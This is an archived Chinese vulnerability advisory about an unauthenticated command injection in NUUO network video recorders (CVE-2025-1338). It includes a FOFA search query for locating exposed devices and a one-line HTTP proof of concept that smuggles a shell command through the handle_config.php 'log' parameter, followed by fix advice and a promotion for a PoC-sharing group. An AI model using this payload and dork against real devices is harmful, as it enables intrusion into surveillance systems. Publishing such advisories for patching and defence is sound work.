





#  NUUO网络视频录像机 handle_config.php 远程命令执行漏洞(CVE-2025-1338)   

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：NUUO网络视频录像机
- 本文讨论：CVE-2025-1338 handle_config.php log
- 版本、权限与配置前提：称无需认证，无固件范围
- 资料类型：命令注入PoC预警；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 产品介绍继续摄像头/NVR混称；缺原始CVE/厂商链接与版本
- 响应/工具验证全截图，不等于三份独立证据
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- CVE精确型号、身份验证状态及修复待确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

Superhero  Nday Poc   2025-03-22 15:17  
  
  
  
  
  
  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC  
信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号Nday Poc及作者不为此承担任何责任，一旦造成后果请自行承担！  
  
  
**00******  
  
**产品简介**  
  
  
NUUO摄像头‌是由中国台湾NUUO公司生产的一款  
网络视频录像机  
（Network Video Recorder，简称NVR），广泛应用于零售、交通、教育、政府和银行等多个领域。它能够同时管理多个IP摄像头，实现视频录制、存储、回放及远程监控等功能，采用先进的视频处理技术，提供高清、流畅的视频画面，满足各种复杂环境下的监控需求‌。  
**01******  
  
**漏洞概述**  
  
  
NUUO网络视频录像机 handle_config.php接口处存在远程命令执行漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。  
**02******  
  
**搜索引擎**  
  
  
FOFA:  
```
title="Network Video Recorder Login" || body="www.nuuo.com/eHelpdesk.php"
```  
  
  
  
  
**03******  
  
**漏洞复现**  
```http
GET /handle_config.php?log=;ls+-al; HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
```  
  
  
  
  
**04**  
  
**自查工具**  
  
  
nuclei  
  
  
  
afrog  
  
  
  
xray  
  
  
  
  
**05******  
  
**修复建议**  
  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、  
关注厂商官网动态，及时更新补丁信息。  
  
  
**06******  
  
**内部圈子介绍**  
  
  
【Nday漏洞实战圈】🛠️   
  
专注公开漏洞复现 · 工具链适配支持  
  
 ✧━━━━━━━━━━━━━━━━✧   
  
🔍 资源内容  
  
 ▫️ 整合全网公开Nday漏洞POC详情  
  
 ▫️ 适配Xray/Afrog/Nuclei检测脚本  
  
 ▫️ 支持内置与自定义POC目录混合扫描   
  
🔄 更新计划   
  
▫️ 每周新增7-10个实用POC（来源公开平台）   
  
▫️ 所有脚本经过基础测试，降低调试成本   
  
🎯 适用场景   
  
▫️ 企业漏洞自查 ▫️ 授权渗透测试 ▫️ 工具链调试   
  
✧━━━━━━━━━━━━━━━━✧   
  
⚠️ 声明：仅限合法授权测试，严禁违规使用！  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
